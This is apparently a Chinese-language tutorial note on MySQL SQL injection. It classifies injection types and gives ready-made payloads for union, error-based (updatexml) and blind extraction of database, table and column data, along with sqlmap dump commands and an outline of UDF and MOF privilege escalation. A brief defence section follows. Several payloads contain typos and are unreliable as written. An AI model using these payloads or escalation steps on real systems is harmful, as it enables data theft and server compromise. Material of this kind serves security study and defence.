 ## 基于 mysql 数据库的 sql注入



### 漏洞分析



#### 漏洞成因

开发人员在编写代码时未进行严格过滤（或sql语句的使用错误，特殊字符的使用错误），从而引发

将代码拼接到sql语句并执行（本质）



#### 漏洞危害

获取数据库权限（对数据的删除，添加，修改，读取）

未获取权限时，可以进行读取一部分数据（可能会包含敏感信息）



### 漏洞详解

#### 分类

##### 根据请求方式分类

```bash
get注入：在get参数部分 如 ?id=1 id为注入点

post注入：注入点在post数据部分，常发生在表单中

http头注入：注入点在http请求头部的某个字段中，如UA，referer， 
cookie在http请求中也算是头部的一个字段
```



##### 根据注入点类型分类

```bash
数字型：注入点id为数字

字符型：注入点id类型为字符，在进行sql注入时使用的 ’ 作用为闭合前边的单引号。
```



##### 根据执行情况分类

```bash
回显注入:页面会回显sql语句查询的内容

报错注入:页面会返回错误信息，或者将语句查询到的不完全的数据返回到页面
# updataxml()函数，concat()函数
# 语法：updatexml(XML_documen,XPath_string,new_value)，
# 实例：updatexml(1,concat(0x7e,( ),0x7e),1)
### 在updatexml函数中，第一个参数为xml的名称，第二个的参数为代表路径，第三个参数代表更新的数据，使用updatexml函数时，~的ASCII码为0x7e, ~不符合xpath_string的语法格式，concat()函数是字符串连接函数，明显不符合语法规范，从而产生致命的错误将数据输出。PS：也可以用其他字符的ASCII码来代替07xe(~)

盲注:
布尔盲注：无法通过页面的回显获取需要的数据，只会返回真假
时间盲注：无法返回真假，通过观察页面回显的时间长短来判断
# length() 函数 返回字符串长度
# substr() 函数 截取字符串 语法：(substr(string,start,leng)
# ascii() 函数 返回ascii码
# if(ex1,ex2,ex3) 判断语句，如果ex1正确，执行ex2，错误执行ex3
# sleep() 设定延时时间
执行流程

### 爆破数据库名称的长度 1’ and (length(database()))>5
### 爆破数据库的名称 1’ and ascii(substr(database(),1,1))=100 --+ 通过改变substr()函数中start的数值，测试出库的名称(第一个字母为ASCII码)
### 爆破表名 1’ and (select ascii(substr((select table_name from information_schema.tables where table_schema=’ 库名’ limit 0,1),1,1)))=97 --+
### 爆破列名 1’ and (select ascii(substr((select column_name from information_schema.columns where table_name=’ 表名 ’ limit 0,1),1,1)))=97 --+
### 爆破字段 1‘ and (select ascii(subtr((select 列名 from 表名 limit 0,1),1,1)))=97 --+
###时间盲注的过程与布尔盲注几乎一致，只是需要采用if()函数和sleep()函数，判断页面是否延时
```



##### 其他注入方式

```bash
堆叠注入:将多个sql语句堆叠在一起进行查询，打破了select的限制，可以对其进行增删改查。
在php中存在mysqli_multi_query()函数——执行一个或多个针对数据库的查询，多个查询用分号进行分隔

宽字节注入:利用编码格式的差异，在 ’ 前加入一个字符，使其和 \ 组合误认为汉字，达到让 \ 消失的目的，发挥 ’ 的作用，适用于GBK等编码
# 英文默认占用一个字节，汉字占用两个字节

注释符注入： 注释符常用的有#，–，/* */ 三种
# –通常不能直接使用，一般是使用–+，因为只使用–的时候无法对sql语句进行闭合，需要+或是’来对其进行闭合完成注入语句
# #在URL中会被认为是锚点，使用时需要进行编码，%23
# /**/内联注释是注释指定部分，需要一前一后的闭合，一般用于过滤空格
```



#### sql注入流程

```bash
# 判断是否存在sql注入
假设存在 select password from admin where id =
当我们输入id=1’时，不符合sql语法的规范，会产生报错
而使用and 1=1 and 1 =2 被拦截的可能性太高了，使用and -1=-1 and -1 = -2 观察回显情况
当对参数进行乘法，看页面是否变化
使用sleep函数观察回显的时间

# 使用order by观察回显情况 猜解列数 使用二分法，如果输入错误则报错，存在就维持现状
# 使用union联合查询（将多条查询结果拼接到一个结果中），寻找输出位，
使用语句获取信息
### -1 union select 1, database() 查询当前数据库
### -1 union select 1,group_concat(schema_name) from information_schema.schemata 查询所有数据库
### -1 union select 1,gruop_concat(table_name)from information_schema.tables where table_schema=‘库名’ 查询表名
### -1 union select 1,group_concat(column_table) from information_schema.columns where table_schema=‘库名’ and table_name=‘表名’ 查询列名
### -1 union select 1,group_concat(列名) from 表名 查询字段内容
### PS:limit可以规定返回记录的数目，-1是为了使union前产生一个错误从而执行后边的语句
```



#### sqlmap基础使用

```bash
# python sqlmap.py -u “URL” 判断是否存在注入
# python sqlmap.py -u “URL” --dbs 查询所有的数据库
# python sqlmap.py -u “URL” -current–db 查询当前数据库
# python sqlmap.py -u “URL” -D 库名 --tables 查询指定库的所有表
# python sqlmap.py -u “URL” -D 库名 -T 表名 --columns 查询指定库指定表的所有列名
# python sqlmap.py -u “URL” -D 库名 -T 表名 -C 列名 --dump 爆出该库该表该列的数据
```



#### sqlmap常用指令

```bash
# --dbms 指定数据库类型
# --os 指定操作系统
# --technique 执行注入方法 B(布尔) E(报错) U(联合) S(堆叠注入) T(时间) Q(内联查询)
# --time -sec n 指定盲注时间
# --tamper”xx.py“ 选择过滤脚本
# --dbms-cred="rott.root" dbms认证
# --prefix --suffix 设置前缀和后缀
# --no-escape 关闭字符串转义机制
```





### mysql 提权方式

#### UDF提权

UDF 即用户自定义函数，通过添加新的函数，对mysql服务器的功能进行扩充。

函数使用

```bash
# select version();
# select user();
# select @@basedir; 获取数据库安装目录
# show variables like "%plugin%"; 查看plugin路径
### mysql版本大于5.1，udf.dll文件必须放置在mysql安装目录的lib\plugin文件夹下，该目录默认是不存在的，需要使用webshell找到mysql的安装目录，并在安装目录下创建MySQL\Lib\Plugin\文件夹，然后将udf.dll导入到该目录。
### mysql版本小于5.1， udf.dll文件在windows server 2003下放置于c:\windows\system32目录，在windows server 2000下放置在c:\winnt\system32目录。
## 掌握mysql数据库的账户，从拥有对mysql的insert和delete权限，以创建和抛弃函数。拥有可以将udf.dll写入相应目录的权限。
```

导出UDF文件：

````bash
# MySQL<5.0，导出路径随意；
# 5.0 <= MySQL<5.1，则需要导出至目标服务器的系统目录（如：c:/windows/system32/）
# MySQL 5.1以上版本，必须要把udf.dll文件放到MySQL安装目录下的lib\plugin文件夹下才能创建自定义函数。
````

提权流程





#### MOF提权

主要是利用`C:\Windows\System32\wbem\MOF`目录下的 `nullevt.mof`文件

该文件具有每分钟都执行一次的特性，向该文件中写入cmd命令，将会被执行

MOF一般只针对Windows2003以下的操作系统



#### 启动项提权

后续补充



### 漏洞防范

配置waf文件进行防护

使用mysql预编译机制 （预编译：在服务器启动时，mysql client把sql语句模板（变量采用占位符进行占位）发送给mysql服务器，mysql服务器对sql语句的模板进行编译，编译后依据语句对索引进行优化，在最终绑定参数的时候把相应的参数传给mysql服务器，直接执行，防范原理：预编译过程中，mysql服务器对参数进行编译的过程即为填充相应占位符的过程，即转义）

限制数据权限和特权

























